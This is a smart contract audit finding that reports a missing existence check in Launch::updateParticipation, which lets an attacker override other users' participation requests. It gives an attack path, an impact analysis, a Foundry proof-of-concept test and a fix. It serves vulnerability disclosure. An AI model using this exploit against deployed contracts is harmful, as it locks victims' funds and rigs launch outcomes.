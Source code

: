Original Myrtle Hedgehog

High

# Launch::updateParticipation Does Not Verify newLaunchParticipationId Exists. Allowing Attacker to Override Any Participation Request

### Summary

The Launch::updateParticipation function does not verify whether request.newLaunchParticipationId exists before proceeding with the update. This allows an attacker to override any participation request 

Severity: High
Likehood: High

### Root Cause

The Launch::updateParticipation function does not verify whether request.newLaunchParticipationId exists before proceeding with the update.


For example, user 1 owns the participationId `pid1`
Attacker can create a new participationRequest via Launch::participation.
Then call Launch::updateParticipation, pass the `pid1` as request.newLaunchParticipationId. 

https://github.com/sherlock-audit/2025-02-rova/blob/main/rova-contracts/src/Launch.sol#L337

After the override, attacker can call `cancelParticipation` to get the full refund, the only cost is gas fee.


### Internal Pre-conditions

1. The launch group set the `finalizesAtParticipation` to false.

### External Pre-conditions

N/A

### Attack Path

1. User 1 call `participat` to participat a launch group. For example, the participation Id is `pid1`
2. Attacker participat the same launch group.
3. Attacker call `updateParticipation` to update his own participation request, but set the `request.newLaunchParticipationId` to `pid1`
4. And the attack, attacker could get his fund back via `cancelParticipation`

### Impact

Attacker can block any user from particianting in a launch, the only cost for the attacker is the gas fee.

One step further. before the launch end, the attacker can override all the participant requests, and let him become the ONLY valid participant, and then win the launch.

The victim’s fund (currency) are locked in the contract.
The only way get the fund back is wait until the launch marked as Completed, and then wait the manager (WITHDRAWAL_ROLE) withdraw the fund via Launch::withdraw, and send it back to the victims.


### PoC

Add the following code to `Launch.UpdateParticipation.t.sol`

```solidity
...
import {console} from "forge-std/console.sol";

contract LaunchUpdateParticipationTest is Test, Launch, LaunchTestBase {
	...
	
    function test_UpdateParticipation_OverrideRequestFromOtherUser() public {
        // the testLaunchParticipationId belong to user1 at beginning
        ParticipationInfo memory info = launch.getParticipationInfo(testLaunchParticipationId);
        assertEq(info.userAddress, user1);

        bytes32 groupId = testLaunchGroupId;
        bytes32 user2Id = "2222222232222222222222222";
        bytes32 user2LaunchParticipationId = "123123ldi00003b74facm5z9n";
        // add participation request
        ParticipationRequest memory participationRequest = _createParticipationRequest();
        participationRequest.userAddress = user2;
        participationRequest.userId = user2Id;
        participationRequest.launchParticipationId = user2LaunchParticipationId;
        bytes memory signature = _signRequest(abi.encode(participationRequest));
        vm.startPrank(user2);
        currency.approve(
            address(launch),
            _getCurrencyAmount(
                participationRequest.launchGroupId, participationRequest.currency, participationRequest.tokenAmount
            )
        );
        launch.participate(participationRequest, signature);

        uint256 tokenAmountBefore = launch.getUserTokensByLaunchGroup(groupId, user2Id);
        assertEq(tokenAmountBefore, 1000 * 10 ** launch.tokenDecimals());

        // update participation request
        uint256 newTokenAmount2 = 500;
        UpdateParticipationRequest memory updateRequest = _createUpdateParticipationRequest(newTokenAmount2);
        updateRequest.userAddress = user2;
        updateRequest.userId = user2Id;
        updateRequest.prevLaunchParticipationId = user2LaunchParticipationId;
        // Here
        updateRequest.newLaunchParticipationId = testLaunchParticipationId;
        bytes memory updateSignature = _signRequest(abi.encode(updateRequest));
        vm.startPrank(user2);
        currency.approve(
            address(launch),
            _getCurrencyAmount(updateRequest.launchGroupId, updateRequest.currency, updateRequest.tokenAmount)
        );

        launch.updateParticipation(updateRequest, updateSignature);

        info = launch.getParticipationInfo(testLaunchParticipationId);
        // The user2 owns the testLaunchParticipationId now, but he shoundn't
        assertEq(info.userAddress, user2);
    }
	...
}
```

Run
```bash
forge test --mt test_UpdateParticipation_OverrideRequestFromOtherUser -vv
```

This test shows that user2 is able to override the an existing participation request.


### Mitigation

In Launch::updateParticipation, add a validation step to ensure that request.newLaunchParticipationId does not already exist before assigning it.